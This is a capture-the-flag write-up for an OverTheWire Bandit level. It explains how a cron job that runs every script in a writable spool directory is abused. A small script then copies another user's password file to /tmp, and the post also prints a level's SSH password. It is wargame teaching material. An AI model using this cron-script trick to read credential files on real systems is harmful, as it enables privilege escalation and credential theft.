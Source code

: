 ```bash
#Login
$ ssh bandit23@bandit.labs.overthewire.org -p 2220   #password=jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

Yet another cron job level.
We are told up front that this level, however, requires you to create your own shell-script.

Let us start by finding out what the cron job is doing.

```bash
$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

And here is the script being run for this cron job.

```bash
$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
    echo "Handling $i"
    timeout -s 9 60 ./$i
    rm -f ./$i
    fi
done
```

The cronjob simply executes all the scripts in the noted folder (where `$myname` = bandit24) and then deletes them.
What we can do is craft a small script and copy it to this directory, where it will be executed.
Note that this is possible because the folder is writable by anyone in group bandit23 (how convenient for us!).

Our script (`b23.sh`) simply `cat`s bandit24's password to a file in `/tmp/` which we can subsequently read.

**b23.sh:**

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 >> /tmp/bandit24pass
```

After composing our script, we change its permissions so that anyone executing the script does indeed have the necessarily permissions to do so;
    then copy the script to the directory noted above so that the cronjob executes it.
Wait a few seconds and then check the tmp file that our script writes to.
